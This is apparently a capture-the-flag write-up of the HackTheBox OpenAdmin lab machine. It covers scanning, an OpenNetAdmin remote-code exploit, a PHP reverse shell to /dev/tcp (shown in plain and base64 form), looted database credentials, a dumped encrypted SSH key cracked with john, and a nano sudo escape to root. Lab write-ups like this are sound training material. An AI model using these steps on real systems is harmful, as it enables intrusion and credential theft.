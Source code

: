 ```yaml
---
layout: post
title: HackTheBox OpenAdmin (10.10.10.171) Writeup
description: >
  Hackthebox OpenAdmin Writeup
image: /assets/img/openadmin.png
noindex: false
---
```


First start with an nmap scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-03-31 11:32 Pacific Daylight Time
Nmap scan report for 10.10.10.171
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.04 seconds
```
Only two ports open. Doing some enumeration around port 80 I discover ther `/ona` directory. There I see the server is running `OpenNetAdmin 18.1.1`. A quick search will reveal there is an RCE exploit available for that verion [here](https://www.exploit-db.com/exploits/47691). Running the script shows I can execute commands as `www-data`
```
$./exploit.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
To get a reverse shell I had to base64 encode a reverse php shell and then base64 decoded and output to a file. Here is the simple shell.
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.48/9999 0>&1'");
```
Here is the shell base64 encoded and being output to a file.
```
$ echo "PD9waHAKZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQ4Lzk5OTkgMD4mMSciKTs=" | base64 -d > shell.php
```
Now I set up my listener and execute the shell. By navigating to `http://10.10.10.171/ona/shell.php`
```
PS C:\Users\Lukasz\Documents\HTB\OpenAdmin > nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.171] 50670
bash: cannot set terminal process group (1061): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$
```
Doing some enumeration I find some credentials in `/opt/ona/www/local/config/database_settings.inc.php`
```
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
```
Using those credentials I can log in as the user `jimmy`. At this point there is still no `user.txt` file which means I need to escalate to the user `joanna`. Do some further enumeration I find some interesting files in `/var/www/internal`. Reading the file `main.php` I see that when this file is called it executed a shell command to read `joanna's` private ssj key.
```
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
I check netstat and see that there is a service running on `127.0.0.1:52846`.
```
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      off (0.00/0/0)
```
Using `curl` to callpage I am able to get `joanna's` private key.
```
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
Now the ssh key is encrypted so it does need to be cracked. I used `john` for this. First I convert the key to a format john can read using `ssh2john`
```
root@kali:# /usr/share/john/ssh2john.py id_rsa > key.hash
```
Then I use john to crack it and get a password of `bloodninjas`
```
# john key.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:11 DONE (2020-03-31 13:15) 0.08438g/s 1210Kp/s 1210Kc/s 1210KC/sa6_123..*7¡Vamos!
Session completed
```
I use the password to log in as the user `jonna` using her private ssh key. Once logged in I can read the `user.txt` file.
```
joanna@openadmin:~$ cat user.txt 
c9b2cf07d40807e62af62660f0c81b5f
```
For the priviledge escalation to root I see that I am able to run a command as the user root.
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Using simple GTFOBins I run the following commands to get a root shell
```
# sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```
Now I have a shell as root and from here I can read the `root.txt` file.
```
# cat root.txt
2f907ed450b361b2c2bf4e8795d5b561
```
